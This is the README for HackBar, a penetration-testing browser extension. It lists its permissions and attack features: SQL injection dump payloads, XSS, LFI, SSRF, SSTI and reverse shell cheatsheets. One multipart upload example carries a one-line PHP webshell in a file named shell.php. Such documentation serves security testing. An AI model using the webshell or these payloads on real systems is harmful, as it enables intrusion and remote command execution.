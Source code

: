 # HackBar

A browser extension for Penetration Testing.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc) and [Firefox Add-ons](https://addons.mozilla.org/en-US/firefox/addon/firefox-hackbar).

## Requested Permissions

- storage

  - Save theme preferences

- scripting

  - Perform POST request
  - Run test function

- webRequest

  - Remember request information
  - Listen finish event to clean up

- declarativeNetRequest
  - Set HTTP header value based on settings

## Features

- Load

  - From tab (default)
  - From cURL command

- Supported

  - HTTP methods
    - GET
    - POST
      - application/x-www-form-urlencoded
      - [multipart/form-data](#multipartform-data)
      - [application/json](#applicationjson)
  - Request editing mode
    - Basic
    - Raw
  - Custom payload

- Auto Test

  - Common paths (Wordlist from [dirsearch](https://github.com/maurosoria/dirsearch/blob/master/db/dicc.txt) included)

- SQLi

  - Dump all database names (MySQL, PostgreSQL)
  - Dump tables from database (MySQL, PostgreSQL, SQLite)
  - Dump columns from database (MySQL, PostgreSQL, SQLite)
  - Union select statement (MySQL, PostgreSQL, SQLite)
  - Error-based injection statement (MySQL, PostgreSQL)
  - [Dump in one shot payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-dios---dump-in-one-shot) (MySQL)
  - [Dump current query payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-current-queries) (MySQL)
  - Space to Inline comment

- XSS

  - Vue.js XSS payloads
  - Angular.js XSS payloads for strict CSP
  - Some snippets for CTF
  - Html encode/decode with hex/dec/entity name
  - String.fromCharCode encode/decode

- LFI

  - PHP wrapper - Base64

- SSRF

  - AWS - IAM role name

- SSTI

  - Jinja2 SSTI
    - ["From Flask config to RCE" Reference](https://twitter.com/realgam3/status/1184747565415358469)
  - Java SSTI

- Shell

  - Python reverse shell cheatsheet
  - sh(bash) reverse shell cheatsheet
  - nc(ncat) reverse shell cheatsheet
  - PHP webshell/reverse shell cheatsheet

- Encoding

  - URL encode/decode
  - Base64 encode/decode
  - Hexadecimal encode/decode
  - Unicode encode/decode
  - Escape ASCII with hex/oct

- Hashing
  - MD5
  - SHA1
  - SHA256
  - SHA384
  - SHA512

## Usage

### How to open it?

1. Open **Developer tools** (Press `F12` or `Ctrl + Shift + I`)
2. Switch to **HackBar** tab
3. Enjoy it

### Shortcuts

| Description | Shortcut  |
| ----------- | --------- |
| Load        | `Alt + A` |
| Split       | `Alt + S` |
| Execute     | `Alt + X` |
| Mode        | `Alt + M` |

## Request Editing

### Basic mode

#### multipart/form-data

After changing **enctype** field to `multipart/form-data`, you can put your payload into **Body** field such as the following:

```text
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as you typed.

#### application/json

After changing **enctype** field to `application/json`, you can put your payload into **Body** field such as the following:

```json
{
  "username": "admin",
  "password": "admin"
}
```

If your payload doesn't contain `=`:

In order to post JSON data, we will insert a dummy field or object to your JSON such as the following:

```json
{ "username": "admin", "password": "admin", "4dxnzjzd5mi": "=" }
```

For more details, please visit "[Posting JSON with an HTML Form](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html)".

### Raw mode

This mode is implemented via `fetch` API. It will try the best to send a request as same as you typed.

However, there are some limitations:

**Request**

- It is unable to use a specified HTTP protocol version.
  > The protocol version is fixed to `HTTP/1.1` in the editor, but what version used in a request is up to `fetch` behavior.
- Some HTTP headers may appear in a sent request even if you don't add them in the editor.<br/>
  e.g. `Connection`, `Cache-Control`, `Pragma`, etc.
  > These headers will be assigned a default value. For example, `Connection: keep-alive`, `Cache-Control: no-cache`.

**Response**

- [Chrome] It always shows `HTTP/1.1` if used protocol version is higher than or equal to HTTP/2.
  > See also [Chromium Code Search](https://source.chromium.org/chromium/chromium/src/+/main:net/spdy/spdy_http_utils.cc;l=61;drc=30a7c30387dfa7d2d6529f8eebde7904624bf790;bpv=1;bpt=0)

## Third-party Libraries

See `package.json` for details.

## Contributor

- [lebr0nli](https://github.com/lebr0nli)
- [boylin0](https://github.com/boylin0)
